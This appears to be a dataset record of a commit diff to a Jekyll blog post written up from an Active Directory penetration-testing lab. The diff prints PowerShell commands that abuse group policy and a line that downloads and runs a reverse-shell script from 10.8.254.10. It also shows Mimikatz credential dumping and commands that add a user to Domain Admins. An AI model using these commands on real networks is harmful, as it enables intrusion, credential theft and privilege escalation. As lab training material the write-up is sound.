

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 900 px high, scrolled down 11540 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 12354 px from its top, so only the background shows below that.

Commit message:
updated site

```diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -233,12 +233,15 @@ GPO Enumeration:
 `Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}`
 
 Add "Server Admins" to the below file
+
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
 `Invoke-GpUpdate -Computer MX01 -Force`
 
 Since BDavis is a user on MX01 we can move laterally via Invoke-Command or just run Mimikatz on the Box.
+
 `Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-PowerShellTcpOneLine.ps1')}`
+
 `Invoke-Command -ComputerName MX01 -ScriptBlock {.\Invoke-Mimikatz.ps1)}`
 
 We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins
@@ -247,8 +250,10 @@ We use cme to expoit the hashes and get a shell.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-screenshot.png)
 
+
+Adding myself to all the good places:
 `net user brax password /add /domain`
+
 `net group "Domain Admins" /add brax /domain`
+
 `net group "Remote Desktop Users" /add lab\brax /domain`
-
-[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
```
